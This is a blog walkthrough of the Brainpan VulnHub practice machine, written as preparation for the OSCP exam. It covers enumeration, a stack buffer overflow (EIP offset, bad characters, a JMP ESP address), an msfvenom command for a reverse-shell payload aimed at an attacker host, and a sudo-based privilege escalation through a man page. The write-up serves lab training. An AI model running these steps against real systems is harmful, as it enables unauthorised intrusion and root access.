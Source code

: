 ```yaml
---
layout: post
title: Brainpan Walkthrough
published: true
---
```

I've had [Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) downloaded for awhile and for some reason I haven't ran it, so having a couple of hours last night I decided to see what it was all about. Unbeknownst to me, it was exactly what I was needing...  



 
      ****Spoiler Alert****          ****Spoiler Alert****



I had been wanting to practice buffer overflows for my upcoming OSCP test, and have been working on getting Windows machine setup just for this running [vulnserver](https://github.com/stephenbradshaw/vulnserver) or something similar. As you will shortly see, this machine has that and a bit more.   

****Initial Enum****

![Brainpan NmapOutput1]({{ site.url }}/images/Brainpan/nmap1.JPG)  
![Brainpan NmapOutput2]({{ site.url }}/images/Brainpan/nmap2.JPG) 

We have an unknown service on TCP/9999 and the Python SimpleHTTPServer module running on TCP/10000. Let's see what's happening on the web service:  

![Brainpan Base_Page]({{ site.url }}/images/Brainpan/base_page_10000.JPG)  

Err, ok. A little on the nose here huh? The source shows that this is only an infographic image being hosted.  
Let's hit TCP/9999 with NetCat and see what that's all about:  

![Brainpan access_9999]({{ site.url }}/images/Brainpan/access_9999.JPG)  

Hmm, not much here either. We need more info. Let's go back to the web service and enumerate further using Nikto.  

![Brainpan Nikto]({{ site.url }}/images/Brainpan/nikto.JPG)  

Cool, we have an extra directory that we can test out ("/bin/"). We'll check that out:  

![Brainpan EXE]({{ site.url }}/images/Brainpan/EXE.JPG) 

Since we're being given the brainpan executable here, let's see if we can find the password for the service.

![Brainpan pass]({{ site.url }}/images/Brainpan/brainscan-exe_pass.JPG) 

I'm not a very good coder.....but I'll bet that's the password. 

![Brainpan granted]({{ site.url }}/images/Brainpan/brainpan_access_granted.JPG) 

Awesome. We've cracked the app and are granted access to.....um....well. Yeah nothing. No menu, shell, or extra ports were opened by using the password (must still be in development). So since it's still a service running on the remote server, why not run it locally and see if we can crash it?  

****Buffer Overflow****

One of the best resources for learning about stack-based buffer overflows is [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood). I won't go over all the steps or explain all the scrpt options here, but much of my scripts used is from that short course, just a bit modified (highly recommend going through). Moving on...

We can run brainpan.exe using Wine (Windows Emulator) and then use a simple Python script to send an increasing number of "A's" into the password field to attempt to trigger a crash. That will tell us whether or not the application is susceptible to a buffer overflow attack.



![Brainpan BOF_Trigger]({{ site.url }}/images/Brainpan/bof_trigger.JPG) 

Bingo! We're able to crash the application, almost immediately at 900 bytes.  
Once we have the crash byte count, we can restart the app, and attach our debugger ([Immunity](https://www.immunityinc.com/products/debugger/)) to the process for further analysis. 

Next we need to send it a fixed byte count (equal to the amount that will crash it), but of all unique values. This will allow us to analyze the EIP register in Immunity to determine at what point in that byte string we can start to control the flow of the program.  
To generate the unique pattern you can use the "pattern_create" Ruby script that comes with MetaSploit.  
Once we plug the unique value into our script and run it, we can then copy the value of EIP in Immunity.  

![Brainpan EIP_Control]({{ site.url }}/images/Brainpan/immunity_eip_control.JPG)  

Now we can copy out the unique value of the EIP to determine the offset value (where EIP is located exactly within the 900 bytes).  
Again, we can calculate this with the MetaSploit "pattern_offset" Ruby script (which gives us a value of 524 bytes).  
Having these values we can run the following script to ensure we have complete control over EIP:  

![Brainpan EIP_Control2]({{ site.url }}/images/Brainpan/bof_eipcontrol2.JPG)  

Here, we're buffering "A's" up to the length of the buffer, less our offset position which is when we start writing "B's" (4 exactly), we then write 4 x "C's" into the ESP register, and complete the trailing padding with whatever is left with "D's". Running the script against the restarted app shows us the following in Immunity:  

![Brainpan EIP_B]({{ site.url }}/images/Brainpan/immunity_eip_control_b.JPG) 

As you can see, our EIP register has 4 x \x42's (Hex for B's), which means we can control the flow of the program!  

Next is to check for bad characters that the application will not support. This would keep our exploit from running correctly (or at all) when executing. A separate script full of every possible bad character can be fired at the app, then analyzed and counted in Immunity, but that can be tedious. We can also generate a list of bad characters, copy that file to a directory that Immunity can access and run the [Mona module](https://github.com/corelan/mona) within Immunity to test the app that way (much easier).  An example of looking for bad characters in Immunity using Mona is below:  

![Brainpan Mona]({{ site.url }}/images/Brainpan/badchar_test.JPG) 

We've got a couple of hits! \x00 and \x0a will be excluded when we build our shellcode (which is our next step).  

The next step is to determine from which location we can launch our shellcode from? For this we can run another Mona module command:  
__!mona jmp -r esp -cpb "\x00\x0a"__  

This command searches for modules that avoid the bad characters, however you will need to ensure there are no DEP or ASLR protections. For this I only saw the brainpan.exe process so I ended up opening that process up and manually searching for a "JMP ESP" memory location, which I found at 0x311712F3. 

The [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) tool is used to generate the shellcode we'll use to trigger a reverse shell from the brainpan overflow vulnerability we found.  
Our command will be the following:  
__msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b "\x00\x0a" EXITFUNC=THREAD -f python__  

This will generate the appropriate shellcode that we can now place into our final exploit script:  

![Brainpan Exploit]({{ site.url }}/images/Brainpan/brainpan_exploit.JPG)  

Note that the script above utilizes the Python struct module for formatting the "JMP ESP" address in the script into Little-endian format (otherwise you would need to do this yourself). 

Now it's time to test it out! We definitely want to test it locally first so we don't inadvertantly crash the service on the remote host. So we'll restart our local brainpan.exe app and fire our script. 

![Brainpan ExploitTest]({{ site.url }}/images/Brainpan/exploit_success_test.JPG)  

Winner-Winner! Ok, now let's try it again, but on the target system:  

![Brainpan ExploitSuccess]({{ site.url }}/images/Brainpan/exploit_success.JPG)  

Woo-hoo! Worked like a charm, but not home free yet. It looks like we only have a limited shell. ಥ_ಥ  

****PrivEsc****

So let's see what privileges puck has (if any):  

![Brainpan Sudo]({{ site.url }}/images/Brainpan/sudo_nopass.JPG)  

Nice, right on the mark. We can run /home/anansi/bin/anansi_util as root (whatever that is). Running it with sudo shows that we have 3 options (network, proclist, and manual). I couldn't figure out how to string together the correct command sequences, until I searched how to [drop to a shell from the man comamnd](http://www.securitynewspaper.com/2018/04/25/proper-use-sudo-linux-privilege-escalation/). 

Then I knew I had it  

![Brainpan root_priv]({{ site.url }}/images/Brainpan/root_privesc.JPG)  

And......

![Brainpan Flag]({{ site.url }}/images/Brainpan/flag.JPG) 


Like I mentioned I had been needing to brush up on my buffer overlows and this was exactly that, plus a good privesc primer. Nice combo all the way around. 



